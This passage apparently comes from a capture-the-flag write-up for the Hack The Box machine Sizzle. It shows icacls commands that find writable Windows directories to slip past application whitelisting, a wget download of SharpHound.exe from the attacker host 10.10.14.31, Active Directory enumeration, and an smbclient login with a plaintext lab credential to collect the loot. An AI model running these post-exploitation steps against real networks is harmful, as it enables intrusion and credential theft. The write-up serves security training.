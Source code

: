 ```bash
		icacls C:\Windows\* /t /c /q | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" | findstr /i /v "\."

```

- Or try each directory individually:

```bash
icacls C:\Windows\System32\spool\drivers\color /t /c /q | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%"

```

![image32](../resources/0a220f75dd614cc3be569202c3d4112e.png)

- Or we can add all those potential directories into a txt file and run **(must be in cmd)**:

```bash
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 

```
- So we can see that **C:\Windows\System32\spool\drivers\color** is writable

- cd to C:\Windows\System32\spool\drivers\color
- We can't use evil-winrm's built in upload

- Using wget and python http.server or using impacket-smbserver

```bash
wget http://10.10.14.31/SharpHound.exe -O sharphound.exe

```
- Run SharpHound:

```bash
.\sharphound.exe -c all

```
- We can write to the Share "Department Shares\ZZ_ARCHIVE", so copy the loot file to there:

![image33](../resources/409b82811b854b4490b0091b60e9b209.png)

- Acces the share and get the loot file:

```bash
smbclient //sizzle.htb.local/'Department Shares' -U "amanda%Ashare1972"

```
- From the bloodhound output, we can see that:

There are 2 kerberoastable users
